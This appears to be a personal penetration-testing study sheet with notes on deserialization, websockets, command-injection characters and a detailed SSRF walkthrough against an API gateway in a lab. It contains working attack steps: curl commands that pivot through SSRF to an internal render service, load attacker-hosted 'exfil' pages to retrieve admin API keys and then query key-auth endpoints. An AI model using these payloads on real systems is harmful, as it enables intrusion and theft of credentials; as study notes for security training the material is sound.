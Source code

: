         The object is deserialized by a portion of the application with valuable libraries in the "class path".
    Monitoring for Ping Payload Success:  sudo tcpdump -i tun0 'icmp and host <tgt ip>' 

## Websockets:

    Step 1: Figure out how the socket is initiated and connect to it
    Step 2: Figure out what commands are allowed (code review, fuzzing, etc.)

## Command Injection:

    ; & && | || > < `...` $(...)  -  URL encode
    Try sub-commands if you control input! - ex. $(whoami)

## SSRF:
    https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery
    API Gateway Steps:
        *See APIGateway scripts 
        -Discovery & enumeration of API microservices
        -Bypass gateway to call service endpoints directly; enumerate endpoints!
        -Enumerate, gather info/bypass auth, and find RCE method
    Any time an API or web form includes a url parameter, always test for SSRF!
        Test kali URL (check request headers), then test localhost & internal endpoints & enumerate        
    Understand what types of requests cause different HTTP request codes and error messages! - necessary for blind enumeration
    Look up default ports for services and test connectivity!
    Identify as many error messages as possible - try invalid ips/ports, malformed ips/ports, your ip, internal ips, etc.
    Microservices don't implement access controls independently - if we can bypass the gateway, we could subvert the controls
        IP addresses are often dynamic, communicating by resolving each Docker container name instead - internal URLs!
        Each microservice exposes its functionality via an API
        API Gateway: single point of entry to the ecosystem
        URLs are often analyzed with regex to route to the correct internal endpoint
        *URL of the backend service might not match the URL the API gateway exposes
    RESTful APIs often perform different actions based on the request type - test different ones!
    URLs for RESTful APIs often follow a pattern of <object>/<action> or <object>/<identifier>
    Map it out! - boxes, IPs, services, endpoints, ports
    After enumerating internal IPs & ports, figure out which service/external endpoint url maps to each - then try fuzzing parameters
    ex. Try sending a request to the Admin API endpoint that returns API keys - then use that at another endpoint
    ex. Call internal endpoint (APIGateway):  
        curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.19.9:9000/render"}' http://192.168.1.135:8000/files/import
        Testing: curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.19.9:9000/api/render?url=http://192.168.111.1/hello.html"}' http://192.168.1.135:8000/files/import
        Calling admin API: curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.19.9:9000/api/render?url=http://192.168.111.1/exfil.html"}' http://192.168.1.135:8000/files/import
        Calling admin API key endpoint:  curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.19.9:9000/api/render?url=http://192.168.111.1/exfil2.html"}' http://192.168.1.135:8000/files/import
        Now we can call the /render endpoint directly without SSRF:
            curl -i -X POST -H "Content-Type: application/json" -d '{"apikey":"blah"}' http://192.168.1.135:8000/render
            curl -i -X POST -H "apikey: blah" http://192.168.1.135:8000/render
            curl -i -X POST -H "apikey: blah" -H "Content-Type: application/json" -d '{"url":"http://192.168.111.1/render/url"}' http://192.168.1.135:8000/render --output out.pdf
                Or:  curl "http://192.168.1.135:8000/render?url=http://192.168.111.1/render/url&apikey=blah"
            curl -i -X POST -H "apikey: blah" -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:8001/key-auths"}' http://192.168.1.135:8000/render --output out.pdf